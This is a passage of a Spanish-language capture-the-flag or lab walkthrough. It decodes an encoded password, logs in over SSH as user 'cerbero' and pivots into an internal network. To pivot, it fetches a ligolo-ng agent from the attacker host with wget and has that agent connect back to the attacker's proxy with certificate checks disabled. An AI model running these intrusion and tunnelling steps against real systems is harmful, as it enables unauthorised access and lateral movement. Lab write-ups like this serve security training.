 ```bash
$ echo 'JZKECZ2NPJAWOTT2JVTU42SVM5HGU23HJZVFCZ22NJGWOTTNKVTU26SJM5GXUQLHJV5ESZ2NPJEWOTLKIU6Q====' | base32 -d | base64 -d | xxd -r -p
P0seidón2022!
```

Encontramos un password para un supuesto usuario **cerbero**. Probamos a conectarnos usando esas credenciales y obtenemos acceso a la primera máquina.

```bash
$ ssh cerbero@10.10.10.2
cerbero@10.10.10.2's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

cerbero@4657df97b944:~$
```

### Pivoting

Vamos a usar [ligolo-ng](https://github.com/Nicocha30/ligolo-ng) para hacer el pivoting a las diferentes redes. Nos bajamos del repositorio las versiones que necesitamos y nos mandamos a la máquina víctima el agente. Le damos también permiso de ejecución.

```bash
cerbero@7c938e91755b:~$ wget http://10.10.10.1:8000/agent && chmod +x agent
```

En nuestro equipo nos ponemos a la escucha con el binario `proxy` y le ponemos como argumento `-selfcert` para que nos genere un certificado para la sesión. Es importante ejecutarlo como **root** porque debemos crear interfaces y es necesario ser root para crearlas.

```bash
$ sudo ./proxy -selfcert
```

Desde la máquina victima ejecutamos el agente para que se conecte a nuestro proxy y que no valide el certificado:

```bash
cerbero@febfcab0b0a6:~$ ./agent -connect 10.10.10.1:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.10.1:11601"
```

Vemos que se ha establecido la conexión. En el proxy seleccionamos la sesión recien creada con `session`. Una vez elegida ejecutamos `autoroute`. Elegimos la red a la que queremos pivotar, le indicamos que nos cree una interfaz nueva y que inicie el tunel.

```bash
ligolo-ng » INFO[0111] Agent joined.                                 name=cerbero@febfcab0b0a6 remote="10.10.10.2:52042"
ligolo-ng » session
? Specify a session : 1 - cerbero@febfcab0b0a6 - 10.10.10.2:52042 - ae1e5a3e-c937-46d2-b383-ef4960acca26
[Agent : cerbero@febfcab0b0a6] » autoroute
? Select routes to add: 20.20.20.2/24? Create a new interface or use an existing one? Create a new interface
INFO[0161] Generating a random interface name...        
INFO[0161] Creating a new "justego" interface...        
INFO[0161] Using interface justego, creating routes...  
INFO[0161] Route 20.20.20.2/24 created.                 
? Start the tunnel? Yes
[Agent : cerbero@febfcab0b0a6] » INFO[0164] Starting tunnel to cerbero@febfcab0b0a6
```
